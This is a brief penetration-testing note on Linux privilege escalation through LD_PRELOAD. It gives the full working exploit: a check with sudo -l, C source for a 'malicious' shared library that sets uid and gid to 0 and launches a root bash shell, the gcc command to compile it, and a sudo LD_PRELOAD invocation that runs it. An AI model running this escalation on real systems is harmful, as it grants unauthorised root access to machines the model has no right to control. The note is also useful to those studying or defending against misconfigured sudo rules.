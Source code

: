 Pre-loading is a feature of LD (Dynamic Linker) which is available on most UNIX systems. This can be exploited by loading a custom library of our choice (as root) before loading a different library
```bash
sudo -l
```
![[Pasted image 20250214224416.png]]
Create a the malicious library in C
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}	_
```

Code Breakdown:

- Including **standardio, sys/types** and **standard libraries**
- Unset the **LD_PRELOAD** environment variable
- Set the **gid** and **uid** to **0** (which is root)
- Then we want to execute **/bin/bash** as **root** (0)

Compile
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Use LD_PRELOAD and another command that we can run as root
```bash
sudo LD_PRELOAD=/tmp/shell.so iftop
```